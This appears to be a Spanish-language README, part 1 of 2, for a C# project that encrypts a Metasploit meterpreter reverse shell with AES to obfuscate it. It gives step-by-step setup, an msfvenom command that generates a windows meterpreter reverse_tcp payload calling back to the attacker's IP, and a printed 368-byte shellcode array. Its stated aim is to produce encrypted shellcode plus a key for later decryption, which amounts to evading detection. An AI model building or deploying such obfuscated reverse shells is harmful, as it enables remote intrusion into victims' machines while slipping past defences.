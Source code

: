 # Ofuscar-shell-meterpreter-en-AES PARTE 1 DE 2 
Este es un codigo en c# en cual encripta un shell creada con msfvenom en formato csharp 
!! necesitamos usar visual studio code 2015 - 2022 !!
1. tenemos que abrir un nuevo proyecto de windows form en csharp 
2. despues de abirse hay que eliminar el windows form
3. configuramos las propiedasdes dandole click, en la parte de Output type necesitamos cambiar a "Console Aplication"
4. En la parte del targetFramework escogemos .NET Framework 4.7.2 
5. ![imagen](https://github.com/Cristian-M0ntes/Ofuscar-shell-meterpreter-en-AES/assets/79603479/3a7a93c5-8c04-454c-9949-4ea0a62f22dc)
6. abrimos el programa.cs donde pondremos el codigo ofuscar-shell-meterpreter-en-AES
7. vamos a msfvenom y creamos una shell reversa con el siguiente comando
  sudo msfvenom -p windows/meterpreter/x64/reverse_tcp LHOST=<TU IP DE LA MAQUINA ATACANTE> LPORT=4444 -f csharp > payload
  cat payload
8. al hacer cat del archivo veremos algo parecido a esto


            byte[] shellcode_metasploit_aes = new byte[368] { 0xda, 0xe1, 0x9f, 0x6b, 0x10, 0xa7, 0x69, 0x3d, 0xe5, 0x33, 0xf5, 0xed, 0x5c, 0x0a, 0x9a, 0x13, 0x04, 0xa2, 0xea, 0xd1, 0x28, 0xf0, 0xc3, 0xda, 0x3b, 0x3c, 0x80, 0x61, 0xc8, 0x52, 0xd8, 0xaa, 0x4c, 0x3e, 0xd5, 0xef, 0xd0, 0xa3, 0x53, 0x21, 0x74, 0xfc, 0xa3, 0x21, 0x90, 0x2c, 0x46, 0xdd, 0xed, 0x1d, 0x50, 0xf6, 0x7b, 0x4e, 0xb6, 0x87, 0x50, 0x5a, 0x40, 0x9b, 0xcb, 0x72, 0x21, 0x22, 0xee, 0x68, 0xd6, 0x64, 0xf8, 0x4f, 0xe2, 0xed, 0x97, 0x53, 0x9f, 0x72, 0x48, 0x1e, 0x8d, 0x38, 0xbc, 0x05, 0x6b, 0x63, 0x7c, 0x85, 0x26, 0x3b, 0x43, 0x4e, 0x24, 0x70, 0xb9, 0x13, 0xac, 0x9d, 0x18, 0x5d, 0xf6, 0x3e, 0x6a, 0xf5, 0x5e, 0xbd, 0x8e, 0x55, 0xc6, 0x4c, 0x45, 0x7b, 0x4d, 0x32, 0xc5, 0x56, 0x31, 0x81, 0xeb, 0x96, 0xfd, 0x4a, 0x49, 0xfa, 0xd2, 0x0c, 0x56, 0x1b, 0xf2, 0xe1, 0x44, 0xce, 0x5a, 0xdc, 0x36, 0x17, 0xf5, 0x87, 0x52, 0x4e, 0xe9, 0xf1, 0x09, 0x28, 0x90, 0xe2, 0x5f, 0x2f, 0x66, 0x64, 0x36, 0x4e, 0x60, 0x36, 0x84, 0x90, 0x45, 0x95, 0x23, 0xe6, 0x4e, 0xf4, 0xf1, 0xd9, 0x90, 0x2b, 0x8e, 0x91, 0xe1, 0x24, 0x2b, 0xc8, 0xdd, 0xc0, 0xf6, 0x4c, 0x95, 0x61, 0xa3, 0xeb, 0x37, 0x75, 0xed, 0x17, 0x44, 0xa2, 0x06, 0xbd, 0x9a, 0x16, 0x0f, 0xfc, 0x9a, 0x57, 0xe2, 0xbe, 0xd2, 0x82, 0xec, 0x8c, 0x79, 0x32, 0x72, 0xd0, 0x3a, 0x68, 0x9f, 0x35, 0xa8, 0x85, 0x6b, 0x3c, 0xd9, 0x37, 0x98, 0xbd, 0xfd, 0xdc, 0x55, 0xa4, 0x4b, 0xd8, 0xf2, 0x59, 0x9c, 0x7d, 0xec, 0xf2, 0x35, 0xbe, 0xb3, 0xaa, 0x7f, 0x9a, 0x86, 0xf6, 0x7a, 0x42, 0xcf, 0xb2, 0xaa, 0xc3, 0x58, 0xa1, 0xb2, 0x0a, 0x57, 0xd2, 0x75, 0x7b, 0x2f, 0x1d, 0x71, 0x7c, 0xf1, 0x63, 0x24, 0x64, 0x6f, 0x38, 0x3c, 0x37, 0x93, 0xda, 0x7e, 0x74, 0x7c, 0x59, 0x04, 0xe1, 0x9c, 0x99, 0xb6, 0x2f, 0xe8, 0x52, 0xc9, 0x91, 0x34, 0x30, 0xaa, 0xa9, 0x71, 0xcf, 0xe5, 0xcf, 0x21, 0xc5, 0x17, 0x4d, 0xfb, 0x6e, 0x89, 0xe5, 0x88, 0x09, 0xe4, 0x50, 0x2e, 0x4c, 0x50, 0x32, 0x85, 0x7a, 0x77, 0x74, 0xd3, 0xfb, 0x86, 0xa9, 0x75, 0x50, 0xf7, 0x80, 0xb8, 0xca, 0x69, 0x5a, 0xe8, 0xed, 0xb5, 0xec, 0x5a, 0x53, 0x57, 0xf7, 0xde, 0xa8, 0xe6, 0xbf, 0x41, 0xbb, 0x46, 0x5f, 0x07, 0x07, 0x54, 0x4c, 0xbd, 0xb5, 0x86, 0xd2, 0x9e, 0x9f, 0x9c, 0x7d, 0x52, 0x5a, 0x09, 0x87, 0xa2, 0x9f, 0x2e, 0xcb, 0x6d, 0xdd, 0xd3, 0xf0, 0xb0, 0x24, 0xfe, 0x19, 0x61, 0x89, 0x29, 0x76, 0x42, 0xee, 0xfa, 0x81 };
10. este seria nuestro payload 
11. ahora remplazamos nuestro payload por el que se encuentra en ofuscar-shell-meterpreter-en-AES
12. si todo ha salido bien ejecutamos o usamos fn + f5 en mi cazo para iniciar la ejecucion del script que encriptara el reverse shell de metasploit
13. esto nos abrira la consola dandonos el codigo de arriba encriptado + una clave aleatoria que usaremos para poder desencriptar luego
14. guardamos los datos que nos entrego la consola 

